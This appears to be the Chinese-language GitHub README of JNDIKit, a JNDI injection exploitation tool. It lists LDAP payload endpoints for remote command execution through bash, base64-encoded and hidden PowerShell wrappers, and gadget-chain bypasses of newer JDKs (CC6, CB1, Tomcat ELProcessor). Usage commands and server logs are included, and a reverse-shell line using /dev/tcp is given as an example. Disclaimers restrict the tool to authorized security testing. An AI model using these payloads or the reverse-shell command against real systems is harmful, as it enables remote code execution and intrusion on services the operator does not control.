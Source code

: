 # JNDIKit

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/Java-8-red)

**工具仅用于安全研究以及内部自查，禁止使用工具发起非法攻击，造成的后果使用者负责**

## 介绍

一款简单的`JNDI`注入利用工具（自用）

并没有多少高级功能，主要是一些基本的功能，供安全研究使用

无需自行编译`Java`代码和开启`HTTP`服务，一切自动

| Payload                               | 介绍                                        |
|---------------------------------------|-------------------------------------------|
| ldap://0.0.0.0:1389/SimpleCommand     | 直接执行命令                                    |   
| ldap://0.0.0.0:1389/BashCommand       | 使用bash并进行Base64编码执行命令                     |
| ldap://0.0.0.0:1389/PowershellCommand | 使用powershell并进行Base64编码执行命令               |
| ldap://0.0.0.0:1389/CC6               | 使用CommonsCollections6绕过高版本JDK             |
| ldap://0.0.0.0:1389/BashCC6           | 使用CommonsCollections6绕过高版本JDK（bash）       |
| ldap://0.0.0.0:1389/PowershellCC6     | 使用CommonsCollections6绕过高版本JDK（powershell） |
| ldap://0.0.0.0:1389/CB1               | 使用CommonBeanUtils1绕过高版本JDK                |
| ldap://0.0.0.0:1389/BashCB1           | 使用CommonBeanUtils1绕过高版本JDK（bash）          |
| ldap://0.0.0.0:1389/PowershellCB1     | 使用CommonBeanUtils1绕过高版本JDK（powershell）    |
| ldap://0.0.0.0:1389/Tomcat            | 使用Tomcat ELProcessor绕过高版本JDK              |
| ldap://0.0.0.0:1389/BashTomcat        | 使用Tomcat ELProcessor绕过高版本JDK（bash）        |
| ldap://0.0.0.0:1389/PowershellTomcat  | 使用Tomcat ELProcessor绕过高版本JDK（powershell）  |

支持三种格式的`RCE`
- 直接执行：`Runtime.getRuntime.exec(command);`
- 使用`bash`并编码：`bash -c {echo,[Payload]}|{base64,-d}|{bash,-i}`
- 使用`powershell`并编码：`powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc [Payload]`

为什么需要对命令进行特殊处理： 

例如`linux`下执行反弹`shell`命令会失败：`bash -i >& /dev/tcp/x.x.x.x/port 0>&1`

因为重定向和管道字符的使用方式在正在启动的进程的上下文中没有意义，所以需要进行特殊处理

支持一些绕过高版本`JDK`的方式（同样支持三种格式的`RCE`）

- 打本地`gadget`的`CB1`和`CC6`链
- 利用`Tomcat ELProcessor`的绕过

## 使用

命令：`java -jar JNDIKit.jar --cmd calc.exe`

```text
    ___  ________   ________  ___  ___  __    ___  _________   
   |\  \|\   ___  \|\   ___ \|\  \|\  \|\  \ |\  \|\___   ___\ 
   \ \  \ \  \\ \  \ \  \_|\ \ \  \ \  \/  /|\ \  \|___ \  \_| 
 __ \ \  \ \  \\ \  \ \  \ \\ \ \  \ \   ___  \ \  \   \ \  \  
|\  \\_\  \ \  \\ \  \ \  \_\\ \ \  \ \  \\ \  \ \  \   \ \  \ 
\ \________\ \__\\ \__\ \_______\ \__\ \__\\ \__\ \__\   \ \__\
 \|________|\|__| \|__|\|_______|\|__|\|__| \|__|\|__|    \|__|                                                                 
20:31:33 [INFO] [org.sec.Main] start jndi kit
20:31:33 [INFO] [org.sec.Main] cmd: calc.exe
20:31:33 [INFO] [org.sec.core.http.HttpServer] start http server: 0.0.0.0:8000
20:31:33 [INFO] [org.sec.core.ldap.LdapServer] start ldap server: 0.0.0.0:1389
┌─────────────────────────────────────┬────────────────────────────────────────────────────┐
│LDAP Payload                         │Introduce                                           │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/SimpleCommand    │Simple RCE                                          │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/BashCommand      │Simple RCE Use Bash                                 │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/PowershellCommand│Simple RCE Use Powershell                           │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/CC6              │RCE Use CC6 Payload (Simple)                        │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/BashCC6          │RCE Use CC6 Payload (Bash)                          │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/PowershellCC6    │RCE Use CC6 Payload (Powershell)                    │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/CB1              │RCE Use CB1 Payload (Simple)                        │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/BashCB1          │RCE Use CB1 Payload (Bash)                          │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/PowershellCB1    │RCE Use CB1 Payload (Powershell)                    │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/Tomcat           │Use Tomcat ELProcessor Bypass JDK 8u191 (Simple)    │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/BashTomcat       │Use Tomcat ELProcessor Bypass JDK 8u191 (Bash)      │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/PowershellTomcat │Use Tomcat ELProcessor Bypass JDK 8u191 (Powershell)│
└─────────────────────────────────────┴────────────────────────────────────────────────────┘
```

如果端口冲突可自行配置端口

命令：`java -jar JNDIKit.jar --cmd calc.exe --lp 1390 --hp 8001`

接收到请求会实时打印

```text
20:53:21 [INFO] [org.sec.core.ldap.LdapServer] Accept 127.0.0.1 -----> SimpleCommand
20:53:30 [INFO] [org.sec.core.ldap.LdapServer] Accept 127.0.0.1 -----> PowershellCommand
20:53:42 [INFO] [org.sec.core.ldap.LdapServer] Accept 127.0.0.1 -----> PowershellCC6
20:53:51 [INFO] [org.sec.core.ldap.LdapServer] Accept 127.0.0.1 -----> PowershellTomcat
```

## 免责申明

**未经授权许可使用`JNDIKit`攻击目标是非法的**

**本程序应仅用于授权的安全测试与研究目的**


